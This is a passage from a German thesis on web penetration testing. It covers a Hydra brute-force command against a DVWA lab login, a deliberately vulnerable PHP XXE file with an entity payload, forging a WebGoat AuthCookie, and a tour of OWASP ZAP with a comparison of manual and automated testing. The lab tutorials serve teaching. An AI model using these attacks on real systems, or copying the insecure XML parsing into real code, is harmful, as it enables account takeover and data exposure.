	
\includegraphics[width=\textwidth]{bfa.png}
	\caption{Anfrage an den Server und Antwort von dem Server}
\end{figure}

Wir können sehen, dass sich die Anfrage in \texttt{/dvwa/login.php} befindet und drei Variablen hat: \texttt{username}, \texttt{password}, and \texttt{login}.\\

Wenn die Erfassung von Anforderungen beendet wird und das Ergebnis im Browser überprüft wird, kann festgestellt werden, dass die Antwort eine Weiterleitung zur Anmeldeseite ist\cite[144]{najera2016kali}:

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{bfa2.png}
	\caption{Die Weiterleitung zur Anmeldeseite}
\end{figure}

Eine gültige Kombination aus Benutzername und Kennwort sollte nicht zu demselben Login, sondern zu einer anderen Seite, z. B. index.php, weitergeleitet werden. Wir gehen also davon aus, dass ein gültiges Login auf die andere Seite umgeleitet wird, und wir verwenden \texttt{login.php} als Zeichenfolge, um zu unterscheiden, wenn ein Versuch fehlschlägt\cite[145]{najera2016kali}.\\

Es wird den folgenden Befehl in ein Terminal eingeführt\cite[145]{najera2016kali}:

\begin{LaTeXCode}[caption={Befehl durch Terminal},captionpos=b, label=LaTeXCode:beheldt1][numbers=none]
hydra 192.168.56.102 http-form-post "/dvwa/login.php:username=^USE
R^&password=^PASS^&Login=Login:login.php" -L users.txt -e ns -u -t 2 -w 30 -o hydra-result.txt
\end{LaTeXCode}

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{bfa3.png}
	\caption{Aufdeckung den Passwörtern}
\end{figure}

Mittels diesem Befehl wird nur zwei Kombinationen pro Benutzer ausprobiert: password = username und leere Passwörter und es werden zwei gültige Passwörter von diesem Angriff erhalten, die von Hydra grün markiert sind\cite[145]{najera2016kali}.

\subsection{Testen von XML External Entities (XXE)}

Wenn eine Anwendung XML-Daten parst und das Ergebnis von geparstem XML in einer HTTP-Antwort anzeigt, würde ein grundlegender Testfall zum Testen der XXE-Sicherheitsanfälligkeit eine XXE-Payload senden, die eine interne Entität ver"`Alphabet"'wendet, nur um sicherzustellen, dass die Anwendung Entitäten enthält oder nicht. Dieses Tutorial stammt aus Infosec Institute\cite{infosec18}.\\

Es wird den folgenden PHP-Code als xxe.php im Webserver-Stammordner gespeichert:

\newpage

\begin{LaTeXCode}[caption={XXE PHP-Datei},captionpos=b][numbers=none]
<?php
libxml_disable_entity_loader (false);
\$xmlfile = file_get_contents('php://input');
\$dom = new DOMDocument();
\$dom->loadXML(\$xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
\$o = simplexml_import_dom(\$dom);
\$user = \$o->username;
\$pass = \$o->password;
echo "username : \$user";\\
\end{LaTeXCode}

Eine POST-Anforderung an die \texttt{xxe.php}-Datei mit XML-Daten gesendet, die im folgenden Screenshot gezeigt werden:

\begin{LaTeXCode}[caption={POST Anfrage zu PHP-Datei},captionpos=b][numbers=none]
POST /vulnapps/xxe.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0
Accept: text/html, application/xhtml+xml, application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 98

	<root>
		<username>sahil</username>
		<password>supersecurepassword</password>
	</root>\\
\end{LaTeXCode}

Hier soll beachtet werden, dass die Anwendung in der HTTP-Antwort einen Benutzernamen anzeigt, der bestätigt, dass die XML-Daten geparst werden.

\newpage

\begin{LaTeXCode}[caption={Geparste XML-Daten},captionpos=b][numbers=none]
HTTP/1.1 200 OK
Date: Tue, 15 May 2018 17:40:35 GMT
Server: Apache/2.4.27 (Win64) PHP/5.6.31
X-Powered-By: PHP/5.6.31
Content-Length: 16
Connection: close
Content-Type: text/xml; charset-UTF-8	

username: sahil\\
\end{LaTeXCode}

Nun wird den XML-Daten eine interne Entität hinzugefügt und im \texttt{username} Element mit \&u verweist und die Anfrage erneut gesendet.\\

\begin{LaTeXCode}[caption={Manipulierte Anfrage},captionpos=b][numbers=none]
POST /vulnapps/xxe.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0
Accept: text/html, application/xhtml+xml, application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 98

<xml version="1.0"?>
<!DOCTYPE foo[<!ENTITY u 'username from internal entity'>]>	
	<root>
		<username>\&u;</username>
		<password>supersecurepassword</password>
	</root>\\
\end{LaTeXCode}

Hier soll nochmal beachtet werden, dass die Anwendung der interne Einheit auflöst und die XXE-Sicherheitsanfälligkeit erfolgreich bestätigt.\\

\begin{LaTeXCode}[caption={Bestätigung der XXE-Schwachstelle},captionpos=b][numbers=none]
	HTTP/1.1 200 OK
	Date: Sun, 20 May 2018 06:31:39 GMT
	Server: Apache/2.4.27 (Win64) PHP/5.6.31
	X-Powered-By: PHP/5.6.31
	Content-Length: 16
	Connection: close
	Content-Type: text/html; charset-UTF-8	
	
	username: username from internal entity\\
\end{LaTeXCode}

\subsection{Testen von Fehlerhafte Authentifizierung mit Webgoat und Burp Suite}
Dieses Tutorial stammt aus der Webseite Tutorialspoint\cite{tpfa15}.
Eine Webanwendung unterstützt das Umschreiben von URLs, indem Sitzungs-IDs in die URL eingefügt werden.\\

\texttt{http://example.com/sale/saleitems/jsessionid=2P0OC2JSNDLPSKHC}

\texttt{JUN2JV/?item=laptop}\\

Ein authentifizierter Benutzer der Website leitet die URL an seine Freunde weiter, um Informationen zu den reduzierten Verkäufen zu erhalten. Er sendet den obigen Link per E-Mail, ohne zu wissen, dass der Benutzer auch die Sitzungs-IDs verschenkt. Wenn seine Freunde den Link verwenden, verwenden sie seine Sitzung und seine Kreditkarte.\\

Man muss sich bei Webgoat anmelden und zum Abschnitt \texttt{"`Session Management Flaws"'} navigiert wird.\\

\newpage

\begin{figure}[h]
	\centering
	
\includegraphics[width=10cm]{fa2.jpg}
	\caption{Anmeldung bei Webgoat}
\end{figure}

Wenn mit den Anmeldeinformationen webgoat/webgoat angemeldet wird, wird in Burp Suite festgestellt, dass die \texttt{JSESSION-ID C8F3177CCAFF380441ABF71090748F2E} lautet, während \texttt{AuthCookie = 65432ubphcfx} nach erfolgreicher Authentifizierung ist.

\begin{figure}[h]
	\centering
	
\includegraphics[width=10cm]{fa3.jpg}
	\caption{Burp Suite: AuthCookie Kontrolle 1}
\end{figure}

Wenn mit den Anmeldeinformationen aspect/aspect angemeldet wird, wird in Burp Suite festgestellt, dass die \texttt{JSESSION-ID C8F3177CCAFF380441ABF71090748F2E} lautet, während \texttt{AuthCookie = 65432udfqtb} nach erfolgreicher Authentifizierung ist.

\newpage

\begin{figure}[h]
	\centering
	
\includegraphics[width=10cm]{fa4.jpg}
	\caption{Burp Suite: AuthCookie Kontrolle 2}
\end{figure}

Nun muss die AuthCookie Patterns analysiert werden. Die erste Hälfte \texttt{65432} ist für beide Authentifizierungen üblich. Daher sind wir jetzt daran interessiert, den letzten Teil der Authcookie-Werte zu analysieren, wie - \texttt{ubphcfx} für den Benutzer \texttt{webgoat} und \texttt{udfqtb} für den jeweiligen Aspektbenutzer.\\

\begin{figure}[h]
	\centering
	
\includegraphics[width=10cm]{fa5.jpg}
	\caption{Burp Suite: AuthCookie Kontrolle 3}
\end{figure}

Wenn die AuthCookie-Werte genauer angesehen werden, hat der letzte Teil dieselbe Länge wie der Benutzername. Es ist daher offensichtlich, dass der Benutzername bei einer Verschlüsselungsmethode verwendet wird. Bei Versuchen und Fehlern / Brute-Force-Mechanismen wird festgestellt, dass nach der Umkehrung des Benutzernamens \texttt{webgoat}; es wird jetzt rausgefunden, dass es \texttt{taogbew} ist und dann wird das Zeichen vor dem Alphabet als AuthCookie d. h. \texttt{ubphcfx} verwendet.

\newpage

Nach der Authentifizierung als Benutzer-Webgoat den AuthCookie-Wert geändert wird, um den Benutzer Alice zu verspotten, indem den AuthCookie gesucht wird.

\begin{figure}[h]
	\centering
	
\includegraphics[width=10cm]{fa6.jpg}
	\caption{Authentifizierung mit dem Cookie}
\end{figure}

\section{Automatisierte Penetrationstest}

Wie in der Abschnitt \ref{owaspzap-def} erwähnt, dass OWASP ZAP ein benutzerfreundliches integriertes Penetrationstest-Tool zum Auffinden von Schwachstellen in Webanwendungen ist. ZAP bietet automatisierte Scanner sowie eine Reihe von Tools, mit denen die Sicherheitslücken automatisch gesucht werden können. In diesem Abschnitt wird die OWASP ZAP-GUI vorgestellt und wird erfährt, wie automatische Penetrationstests mit dem Sicherheitstools OWASP Zap durchgeführt werden. Außerdem bilden die in diesem Kapitel erläuterten Informationen die Basis für die in Kapitel \ref{cha:k5} vorgenommene Evaluierung des Open API 2.0 Plugins von OWASP ZAP und sind demzufolge für das Verständnis der Verwendung des Open API 2.0 Plug-Ins erforderlich.

\subsection{OWASP-ZAP Webanwendung Penetrationstest}

\subsubsection{Die Vorstellung von OWASP ZAP Oberfläche}

\newpage

\begin{figure}[h]
	\centering
	
\includegraphics[width=12cm]{owaspzapgui.png}
	\caption{OWASP ZAP GUI Überblick}
\end{figure}

Wie oben zu sehen, ist das GUI-Fenster in drei Hauptabschnitte unterteilt:\\

\begin{flushleft}
	\textbf{Linker Bereich:}\\
\end{flushleft}
Im linken Bereich des ZAP-Fensters werden die Dropdown-Schaltflächen "`Context"' und "`Sites"' angezeigt. Es kann vorkommen, dass mehrere Websites zum Scannen ausgewählt werden können. Diese Websites werden unter "`Sites"' angezeigt.

\begin{flushleft}
	\textbf{Rechter Bereich:}\\
\end{flushleft}
Hier gibt es einen URL-Abschnitt, in dem das Ziel für das Scannen angegeben werden müssen. Die Schaltfläche "`Attack"' startet den Angriff auf das Ziel und die Schaltfläche "`Stop"' stoppt den Angriff.

\begin{flushleft}
	\textbf{Unterer Bereich:}\\
\end{flushleft}
Dieser Abschnitt enthält sechs Tabs, die für die Darstellung der Aktivitäten während der Schwachstellensuche wichtig sind. Unter den Tabs befindet sich eine Fortschrittsleiste, in der der Scanfortschritt, die Anzahl der gesendeten Anforderungen und der Export der Details im CSV-Format angezeigt werden.\\

Das Tab \textbf{"`History"'} zeigt die getesteten Websites an. In diesem Fall testen wir nur ein einzelnes Ziel, sodass im Verlaufsdatensatz ein einzelner Eintrag angezeigt wird.\\

Auf das Tab \textbf{"`Search"'} kann der Tester Suche nach Mustern durchführen. Zum Beispiel wird alle GET-Anfragen abgefragt und wird dazu gehörende Informationen angezeigt.\\

Auf das Tab \textbf{"`Alerts"'} können weitere Informationen zu den erkannten Sicherheitslücken des gescannten Ziels gefunden werden und die Ausgaben werden nach Schweregrad eingestuft.\\

Auf das Tab \textbf{"`Spider"'} werden die Dateien angezeigt, die in der Webanwendung gecrawlt (erkannt) wurden. Durch das Spider wird die auf der Website residenten Verzeichnisse und Dateien ermittelt und für eine spätere Überprüfung auf Schwachstellen protokolliert werden.\\

Das letzte Tab ist der \textbf{"`Active Scan"'}. Dies ist wichtig, um den Fortschritt des laufenden Scans in Echtzeit anzuzeigen, wobei jede verarbeitete Datei angezeigt wird.\\

\subsubsection{Schneller Scan \& Angriff}

Um den Schnellscan zu starten, wird die Adresse des Ziels in das Eingabefeld "`URL to attack"' eingegeben und wird auf die Schaltfläche "`Attack"' geklickt.

\begin{figure}[h]
	\centering
	
\includegraphics[width=12cm]{owaspzapgui2.png}
	\caption{URL zum Spider}
	\label{quickscan2}
\end{figure}

Dadurch wird die gesamte Zielwebsite gesichtet und anschließend nach Schwachstellen durchsucht. Der Scan-Fortschritt und die gefundenen Seiten werden wie bei der Abbildung \ref{quickscan3} im unteren Fenster angezeigt.

\newpage

\begin{figure}[h]
	\centering
	
\includegraphics[width=12cm]{owaspzapgui3.png}
	\caption{Spider Ergebnis}
	\label{quickscan3}
\end{figure}

Wenn es fertig ist, wird auf "`Alerts"' geklickt, um Sicherheitsprobleme der Website wie folgendes anzuzeigen:

\begin{figure}[h]
	\centering
	
\includegraphics[width=12cm]{owaspzapgui4.png}
	\caption{Gefundene Sicherheitslücken}
	\label{quickscan4}
\end{figure}

Jeder Ordner enthält verschiedene Arten von Sicherheitsproblemen, die für den Schweregrad farbcodiert sind. Durch Klicken auf den Ordner werden einzelne Probleme angezeigt, die für zusätzliche Informationen ausgewählt werden können. Es enthält nicht nur eine detaillierte Erklärung des Problems, sondern auch Empfehlungen zur Lösung des Problems enthält.

\section{Vor- und Nachteile zwischen manuelle und automatisierte Penetrationstest}

Beim Penetrationstest kann der Tester entweder manuelle oder automatisierte oder beide Methoden anwenden, um die Schwachstellen in der Webanwendung zu ermitteln. Die Methoden der Tester basieren auf ihren Fähigkeiten und Kenntnissen. Es gibt jedoch einige Faktoren, z. B. welche Methode wirksam ist, weniger Zeitverwirrung und Zuverlässigkeit in Betracht gezogen werden sollten, bevor sie angewendet werden. Obwohl manuelle Durchdringung Testen und automatisiertes Scannen können beide verwendet werden, um kritische Sicherheitslücken in Webanwendungen zu finden, von denen jede eigene Stärken und Schwächen aufweist. Ein Anwendungskontext sollte bei der Entscheidung helfen, welcher der geeignetere ist. Der Kontext umfasst Folgendes: Wie groß ist die Anwendung, wie hoch ist das Budget des Projekts oder wann soll es freigegeben werden? 

Automatisierte Werkzeuge arbeiten in der Größenordnung viel schneller und ist eine sichere und einfache Methode, um alle Aufgaben im Zusammenhang mit dem Penetrationstest durchzuführen, da die meisten Aufgaben automatisiert sind, können Tests weniger zeitaufwändig sein als manuelle Tests. Es ist viel schwieriger, die einzelnen Komponenten, Dienste und Protokolle manuell mit der gleichen Geschwindigkeit zu testen, die eine Maschine ausführen kann. Weil Automatisierte Tests schneller als manuelle Tests sind, werden die Ergebnisse auch schneller akkumuliert. Sicherheitsberichte werden automatisch generiert und können zur Offline-Prüfung als XML-, PDF- oder HTML-Dateien exportiert werden\cite{autovorteil99}.

Durch das automatisierten Penetrationstest können größere Angriffsflächen leichter abgedeckt werden, indem das Crawlen von Webanwendungen implementiert werden, um potenzielle Angriffseingaben, insbesondere technische Schwachstellen, zu erkennen. Manuelles Testen würde viel Zeit erfordern, um die gleiche Abdeckung und den gleichen Vergleich mit bekannten Schwachstellen gewährleisten zu können\cite{packetlabs18}.

Automatisierte Tools können eine große Anzahl von Inputdaten für jeden Test initialisieren und ausführen, können sich jedoch nicht dafür entscheiden, die Inputdaten für jedes Szenario korrekt auszuführen. Es wird normalerweiße mit mehreren Inputdaten übergetragen und auf eine Reaktion gewartet werden, d.h. ist es schwierig für automatisierte Tools, um die Webanwendungen und -dienste genau zu testen, wodurch logische Schwachstellen übersehen werden können\cite{packetlabs18}.

Automatisiertes Testen bietet Vorteile für größere Projekte, da die anfänglichen Kosten für die Automatisierung und die Testwartung sehr hoch sein können. Automatisierung hilft dabei, menschliche Fehler zu vermeiden - einige Fehler, die bei manuellen Tests gemacht werden, können reduziert werden. Dies betrifft Fehler, die durch die Durchführung einer langen Liste alltäglicher Aktivitäten entstanden sind. 
Die einfache Reproduzierbarkeit der Tests ist auch ein großer Vorteil gegenüber dem individuellen Ansatz beim manuellen Testen.
Der umfassende Test der manuellen Penetrationstests macht es zu einem sehr komplexen Prozess. Die wiederholte Aufgaben, die während des manuellen Tests ausgeführt werden, können zu ungenauen oder falschen Ergebnissen führen.  Dieser Prozess erfordert während der gesamten Testdauer ein Team von erfahrenen Testern, was es zu einer sehr teuren Option macht. Diese Tester müssen sehr erfahren sein, da sie alle Aufgaben manuell steuern müssen. Bei automatisierten Anwendungssicherheitstests wird weniger Personal benötigt, um das Scannen und die Analyse durchzuführen\cite{autovorteil99}.

Automatisierung kann zu den folgenden Kostensenkungen führen. Die Kosten für\cite{autovorteil99}: 

\begin{itemize} 
	\item die Entwicklung automatisierter Tests.
	\item die Verbesserung der Tests, wenn sich das Produkt ändert.
	\item die Überprüfung der Testergebnisse.
\end{itemize} 

Automatisierte Tools sind nur so zuverlässig wie ihre Updates. Wenn eine neue Sicherheitsanfälligkeit oder ein Exploit ohne bekannte Kategorie in die Umgebung eingeführt wurde, können die automatisierten Tools die Sicherheitsbedrohung nicht erkennen und identifizieren. Beim manuellen Testen kann der Tester je nach Situation und Schwachstelle einen eigenen Exploit erstellen. Dies ermöglicht die Ausführung einer umfassenden Testmethodik, die automatisierte Tools übersehen und nicht erkannt werden\cite{packetlabs18}.

Ausführliche manuelle Pentests werden von erfahrenen Sicherheitsexperten ausgeführt, die versuchen, eine Webanwendung zu gefährden. Sie helfen dabei, Schwachstellen zu erkennen und komplexe Angriffsvektoren zu identifizieren. Die Menge an täglich übertragenem Code stellt jedoch eine Herausforderung dar, da es für Sicherheitsteams immer schwieriger wird, die neuesten Bedrohungen im Auge zu behalten. Hier kommen automatisierte Sicherheitstests ins Spiel. Automatisierte Test-Tools werden regelmäßig gegen eine Webanwendung ausgeführt und werden laufend mit neuen Sicherheitstests aktualisiert. Mit Hilfe der Automatisierung können Schwachstellen entdeckt werden, bevor neuer Code in die Produktion übernommen wird\cite{wmpta17}.

Die Unternehmen begannen automatisierte Testtechniken für Webanwendungen zu entwickeln. Zu diesem Zeitpunkt war das Web reifer geworden, und die Webbrowser waren in der Lage, die Komplexität dynamischer Anwendungen zu beherrschen. Das Ziel dieser frühen automatisierten Testwerkzeuge war die Automatisierung des Ermittlungsprozesses einer Webanwendung und das Einfügen von Fehlern dazu beitragen, Schwachstellen zu entdecken. Mit dem Ausreifen automatisierter Tools für die Sicherheit von Webanwendungen wurden die meisten dieser Probleme angegangen. Da die Webanwendungen jedoch immer größer werden, wird das manuelle Testen immer schwieriger. In vielen Unternehmen wird es unmöglich werden, Zeit, Aufwand und Geld für die Bewertung des Unternehmens aufzuwenden steigende Anzahl von Webanwendungen. Unter dem Strich kann der Mensch nur so viele Codezeilen pro Tag betrachten, und wenn sich das Anwendungsvolumen vergrößert, müssen auch Ihre Testställe, die schnell zu Kosten werden können unerschwinglich\cite[2--5]{wasasibm08}.

Unabhängig davon, ob manuelle oder automatisierte Sicherheitstesttechniken verwendet werden, ist es wichtig, das Softwareverhalten zu analysieren, um festzustellen, ob tatsächlich gegen die Grundsätze der Vertraulichkeit (engl. Confidentiality), Integrität (engl. Integrity) oder Verfügbarkeit (engl. Availability) (CIA) verstoßen wurde\cite{moaast17}.











